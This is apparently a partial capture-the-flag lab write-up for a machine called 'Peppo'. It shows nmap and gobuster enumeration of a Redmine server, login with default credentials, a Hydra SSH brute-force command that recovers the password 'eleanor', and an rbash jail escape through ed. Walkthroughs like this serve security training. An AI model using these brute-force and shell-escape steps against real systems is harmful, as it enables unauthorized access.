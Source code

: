 # "Peppo" (Hard) - Incomplete

## Information Gathering

Scanned all TCP ports:

```
PORT      STATE  SERVICE           VERSION
22/tcp    open   ssh               OpenSSH 7.4p1 Debian 10+deb9u7 (protocol 2.0)
| ssh-hostkey: 
|   2048 754c0201fa1e9fcce47b52feba3685a9 (RSA)
|   256 b76f9c2bbffb0462f418c938f43d6b2b (ECDSA)
|_  256 987fb640cebbb557d5d13c65727487c3 (ED25519)
|_auth-owners: root
53/tcp    closed domain
113/tcp   open   ident             FreeBSD identd
|_auth-owners: nobody
5432/tcp  open   postgresql        PostgreSQL DB 12.3 - 12.4
8080/tcp  open   http              WEBrick httpd 1.4.2 (Ruby 2.6.6 (2020-03-31))
|_http-favicon: Unknown favicon MD5: D316E1622C58825727E7E4E6C954D289
|_http-server-header: WEBrick/1.4.2 (Ruby/2.6.6/2020-03-31)
|_http-title: Redmine
| http-robots.txt: 4 disallowed entries 
|_/issues/gantt /issues/calendar /activity /search
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
10000/tcp open   snet-sensor-mgmt?
|_auth-owners: eleanor
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, Help, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, LPDString, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServer, TerminalServerCookie, X11Probe: 
|     HTTP/1.1 400 Bad Request
|     Connection: close
|   FourOhFourRequest: 
|     HTTP/1.1 200 OK
|     Content-Type: text/plain
|     Date: Sun, 13 Nov 2022 20:35:42 GMT
|     Connection: close
|     Hello World
|   GetRequest, HTTPOptions: 
|     HTTP/1.1 200 OK
|     Content-Type: text/plain
|     Date: Sun, 13 Nov 2022 20:35:36 GMT
|     Connection: close
|_    Hello World
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port10000-TCP:V=7.93%I=7%D=11/13%Time=63715518%P=x86_64-pc-linux-gnu%r(
SF:GetRequest,71,"HTTP/1\.1\x20200\x20OK\r\nContent-Type:\x20text/plain\r\
SF:nDate:\x20Sun,\x2013\x20Nov\x202022\x2020:35:36\x20GMT\r\nConnection:\x
SF:20close\r\n\r\nHello\x20World\n")%r(HTTPOptions,71,"HTTP/1\.1\x20200\x2
SF:0OK\r\nContent-Type:\x20text/plain\r\nDate:\x20Sun,\x2013\x20Nov\x20202
SF:2\x2020:35:36\x20GMT\r\nConnection:\x20close\r\n\r\nHello\x20World\n")%
SF:r(RTSPRequest,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConnection:\x20
SF:close\r\n\r\n")%r(RPCCheck,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nCo
SF:nnection:\x20close\r\n\r\n")%r(DNSVersionBindReqTCP,2F,"HTTP/1\.1\x2040
SF:0\x20Bad\x20Request\r\nConnection:\x20close\r\n\r\n")%r(DNSStatusReques
SF:tTCP,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConnection:\x20close\r\n
SF:\r\n")%r(Help,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConnection:\x20
SF:close\r\n\r\n")%r(SSLSessionReq,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\
SF:r\nConnection:\x20close\r\n\r\n")%r(TerminalServerCookie,2F,"HTTP/1\.1\
SF:x20400\x20Bad\x20Request\r\nConnection:\x20close\r\n\r\n")%r(TLSSession
SF:Req,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConnection:\x20close\r\n\
SF:r\n")%r(Kerberos,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConnection:\
SF:x20close\r\n\r\n")%r(SMBProgNeg,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\
SF:r\nConnection:\x20close\r\n\r\n")%r(X11Probe,2F,"HTTP/1\.1\x20400\x20Ba
SF:d\x20Request\r\nConnection:\x20close\r\n\r\n")%r(FourOhFourRequest,71,"
SF:HTTP/1\.1\x20200\x20OK\r\nContent-Type:\x20text/plain\r\nDate:\x20Sun,\
SF:x2013\x20Nov\x202022\x2020:35:42\x20GMT\r\nConnection:\x20close\r\n\r\n
SF:Hello\x20World\n")%r(LPDString,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r
SF:\nConnection:\x20close\r\n\r\n")%r(LDAPSearchReq,2F,"HTTP/1\.1\x20400\x
SF:20Bad\x20Request\r\nConnection:\x20close\r\n\r\n")%r(LDAPBindReq,2F,"HT
SF:TP/1\.1\x20400\x20Bad\x20Request\r\nConnection:\x20close\r\n\r\n")%r(SI
SF:POptions,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConnection:\x20close
SF:\r\n\r\n")%r(LANDesk-RC,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConne
SF:ction:\x20close\r\n\r\n")%r(TerminalServer,2F,"HTTP/1\.1\x20400\x20Bad\
SF:x20Request\r\nConnection:\x20close\r\n\r\n");
Service Info: OSs: Linux, FreeBSD; CPE: cpe:/o:linux:linux_kernel, cpe:/o:freebsd:freebsd
```

Enumerated UDP ports:

```
Not shown: 1000 open|filtered udp ports (no-response)
```

Notes:

* 21/SSH is open -- Password?
  * Potential users:&#x20;
    * admin
    * root
    * eleanor
* Searchsploited Everything
* Directory bruteforce on both HTTP endpoints
* Nikto 8080 and 10000

## Enumeration

### Port 8080 - HTTP (WEBrick httpd 1.4.2 (Ruby 2.6.6 (2020-03-31)))

Directory Bruteforce:

```
gobuster dir -u http://192.168.81.60:8080 -w /usr/share/seclists/Discovery/Web-Content/common.txt
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.81.60:8080
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Timeout:                 10s
===============================================================
2022/11/13 15:40:51 Starting gobuster in directory enumeration mode
===============================================================
/404                  (Status: 200) [Size: 459]
/500                  (Status: 200) [Size: 648]
/activity             (Status: 200) [Size: 7311]
/admin.cgi            (Status: 401) [Size: 0]
/admin.php            (Status: 401) [Size: 0]
/admin.pl             (Status: 401) [Size: 0]
/admin                (Status: 302) [Size: 148] [--> http://192.168.81.60:8080/login?back_url=http%3A%2F%2F192.168.81.60%3A8080%2Fadmin]
/favicon.ico          (Status: 200) [Size: 7886]
/groups               (Status: 302) [Size: 149] [--> http://192.168.81.60:8080/login?back_url=http%3A%2F%2F192.168.81.60%3A8080%2Fgroups]
/issues               (Status: 200) [Size: 19696]
/login                (Status: 200) [Size: 5011]
/logout               (Status: 302) [Size: 92] [--> http://192.168.81.60:8080/]
/my                   (Status: 302) [Size: 145] [--> http://192.168.81.60:8080/login?back_url=http%3A%2F%2F192.168.81.60%3A8080%2Fmy]
/news                 (Status: 200) [Size: 5361]
/projects             (Status: 200) [Size: 12258]
/queries              (Status: 406) [Size: 4768]
/robots.txt           (Status: 200) [Size: 103]
/roles                (Status: 302) [Size: 148] [--> http://192.168.81.60:8080/login?back_url=http%3A%2F%2F192.168.81.60%3A8080%2Froles]                                                                                                              
/search               (Status: 200) [Size: 7933]
/settings             (Status: 302) [Size: 151] [--> http://192.168.81.60:8080/login?back_url=http%3A%2F%2F192.168.81.60%3A8080%2Fsettings]                                                                                                           
/trackers             (Status: 302) [Size: 151] [--> http://192.168.81.60:8080/login?back_url=http%3A%2F%2F192.168.81.60%3A8080%2Ftrackers]                                                                                                           
/users                (Status: 302) [Size: 148] [--> http://192.168.81.60:8080/login?back_url=http%3A%2F%2F192.168.81.60%3A8080%2Fusers]                                                                                                              
Progress: 4695 / 4714 (99.60%)
```

Default Credentials:&#x20;

<figure><img src="../../../.gitbook/assets/image (6) (1) (3).png" alt=""><figcaption></figcaption></figure>

* I was able to use default credentials on the admin page
* Upon logging in, I had to change my credentials because they expired

Information Page:

<figure><img src="../../../.gitbook/assets/image (47).png" alt=""><figcaption></figcaption></figure>

* <mark style="color:yellow;">The version at the bottom also says that it is running a 2020 version</mark>

## Exploitation

### Password same as username

Hydra Bruteforce:

```
hydra -L users -P users 192.168.81.60 ssh -t 4
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-11-13 17:08:10
[DATA] max 4 tasks per 1 server, overall 4 tasks, 9 login tries (l:3/p:3), ~3 tries per task
[DATA] attacking ssh://192.168.81.60:22/
[22][ssh] host: 192.168.81.60   login: eleanor   password: eleanor
```

## Privilege Escalation

### Rbash Jail

<figure><img src="../../../.gitbook/assets/image (3) (8).png" alt=""><figcaption></figcaption></figure>

* <mark style="color:yellow;">We need to find a way to escape rbash</mark>

{% embed url="https://www.hacknos.com/rbash-escape-rbash-restricted-shell-escape/" %}

<mark style="color:yellow;">Escaped</mark>:

```
ed
!'/bin/bash'
```
